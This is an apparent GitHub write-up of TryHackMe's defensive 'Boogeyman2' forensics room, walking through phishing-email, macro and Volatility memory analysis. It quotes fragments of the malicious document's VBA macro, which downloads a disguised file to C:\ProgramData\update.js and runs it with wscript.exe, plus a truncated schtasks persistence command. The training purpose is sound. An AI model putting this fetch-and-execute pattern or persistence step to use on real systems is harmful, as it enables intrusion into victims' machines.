









# Boogeyman2
The Boogeyman is back. Are you still afraid of the Boogeyman?

## Quick overview
This room is from TryHackMe [room here](https://tryhackme.com/room/boogeyman2). It's directly following the first room Boogeyman.

#### Tags
Blue Team - Forensic - Memory Forensic - Email Forensic - Docx Forensic 

## Introduction
After having a severe attack from the Boogeyman, Quick Logistics LLC improved its security defences. However, the Boogeyman returns with new and improved tactics, techniques and procedures. 

Maxine, a Human Resource Specialist working for Quick Logistics LLC, received an application from one of the open positions in the company. Unbeknownst to her, the attached resume was malicious and compromised her workstation.

Two artefacts where provided : 
- Copy of the phishing email.
- Memory dump of the victim's workstation.

Tools used :
- Volatility
- Olevba 
- Strings

## Questions
### What email was used to send the phishing email ?
After a quick look at the suspicious email, we can answer the following questions.

-> westaylor23[@]outlook.com 

### What is the email of the victim employee ?
(Still on the previous screen) \
-> maxine.beck[@]quicklogisticsorg.onmicrosoft.com 

### What is the name of the attached malicious document ?
(Screen)  \
-> Resume_WesleyTaylor.doc

### What is the MD5 hash of the malicious attachment ?

(Very important for the integrity of the evidence)

### What URL is used to download the stage 2 payload based on the docoument macro ?
Now, we'll start to dive deep down in the doc file. 
Using Olevba, we'll be able to gather a lot of juicy informations 

We can see a VBA Macro, let's scrap it : \
`AutoOpen()` -> The script will be lunched when the document will be opened. \
`xHttp.Open "GET", "X/.../update.png",False` -> It'll fetch a distant image on his domain.
`.savetofile "C:\ProgramData\update.js", 2`-> It'll write it on the disk as a .js file.
`shell_object.Exec ("wscript.exe C:\ProgramData\update.js")` -> Finally, it'll try to run it through wscript 

### What is the name of the process that executed the newly downloaded stage 2 payload?
As seen before, it'll be -> wscript.exe

### What is the full path of the malicious stage 2 payload?
Also seen just above, the malicious script is saved on C:\ProgramData\update.js

### What is the process that executed the stage 2 payload ?
Ok, now let's dive in the memory analysis.
First, we'll start to gather informations about the memory dump : 
`vol -f WKSTN-2961.raw windows.info`

 \
Then, we'll try to find informations about the process with `vol -f  windows.pslist`

### What is the parent PID of the process that executed the stage 2 payload ?
Still working on the process here, the PPID is very important to understand how the process was created/executed in the first place.

1124 PID will come from WINWORD.exe, which PPID is 1440 -> Outlook.exe \
So the payload was executed on the victim computer.

## What is the PID of the malicious process used to establish the C2 connection?
Just under the wscript.exe process, we can find a process, which PPID is 4260. 

## What is the full file path of the malicious process used to establish the C2 connection?
Now, we can use `Strings` in order to grep some information about update.exe. For the following, we can use the domain of the attack.

Here, we can find the whole URL for update.exe
Now, we can use filescan from volatility in order to find more information about "update.exe" 

## What is the IP Address and port of the C2 connection initiated by the malicious binary ?
C2 stands for Command & Control, so it's means that our victim computer is communicating with an external entity. In order to find it, we'll scan our victime network connection.

`vol -f  filescan | grep "update.exe"`

We can see the external IP on the last row.

## What is the full file path of the malicious email attachment based on the memory dump?

We know the name of the malicious file, we can use filescan again in order to find it.

## The attacker implanted a scheduled task right after establishing the c2 callback. What is the full command used by the attacker to maintain persistent access?

Usually, attackers will try to keep a persistent access to the victim, one way is to hide it in the scheduled task.

By running `strings <mem> | grep "schtasks"`, you'll find : `schtasks /Create /F /...`